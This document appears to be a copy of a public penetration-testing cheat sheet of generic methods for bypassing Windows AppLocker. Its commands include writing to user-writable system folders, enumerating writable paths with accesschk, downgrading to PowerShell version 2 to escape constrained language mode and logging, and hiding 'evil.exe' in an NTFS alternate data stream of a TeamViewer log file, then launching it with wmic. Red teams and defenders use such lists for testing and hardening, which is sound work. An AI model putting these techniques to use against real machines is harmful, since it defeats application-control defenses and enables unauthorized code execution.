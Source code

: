 # AppLocker Bypasses

* This list contains generic methods of bypassing AppLocker.

### Placing files in writeable paths

* The following folders are by default writable by normal users (depends on Windows version - This is from W10 1803)

```
C:\Windows\Tasks 
C:\Windows\Temp 
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

### Checking for Access&#x20;

* You can check the for additional paths by running accesschk from sysinternals and supplying these commands:

```
accesschk -w -s -q -u Users "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u Everyone "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u Interactive "C:\Program Files" >> programfiles.txt

accesschk -w -s -q -u Users "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u Everyone "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u Interactive "C:\Program Files (x86)" >> programfilesx86.txt

accesschk -w -s -q -u Users "C:\Windows" >> windows.txt
accesschk -w -s -q -u Everyone "C:\Windows" >> windows.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Windows" >> windows.txt
accesschk -w -s -q -u Interactive "C:\Windows" >> windows.txt
```

### User writeable files

* There are cases where files are writeable by the user and can be used to bypass AppLocker. One such known case is 3 files under C:\windows\system32\AppLocker called:
  * `AppCache.dat`
  * `AppCache.dat.LOG1`
  * `AppCache.dat.LOG2`
  * These files are writeable by the first user that logs on to the computer after AppLocker has been deployed to the machine. More details here:
  * [https://oddvar.moe/2019/05/29/a-small-discovery-about-applocker/](https://oddvar.moe/2019/05/29/a-small-discovery-about-applocker/)

### Powershell Version 2

```
Powershell -version 2
```

Bypasses Constrained language mode in PowerShell (and also logging). To fix this Powershell version 2 should be removed from Add/Remove Windows features.

### CMD.exe Bypass&#x20;

* If you are in constrained language mode you can call `cmd.exe` as programs under `System32` are allowed&#x20;

```
cmd.exe /c whoami
```

### NTFS Alternate Data Streams (ADS)

AppLocker rules does not stop things that execute in ADS. More info on that here: [https://hitco.at/blog/howto-prevent-bypassing-applocker-using-alternate-data-streams/](https://hitco.at/blog/howto-prevent-bypassing-applocker-using-alternate-data-streams/) This means you can pipe data to a stream and execute it using many of the different methods: [https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

Example on adding binary to a writable file under program files (using ADS):

```
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"

wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'
```

\
[https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md)
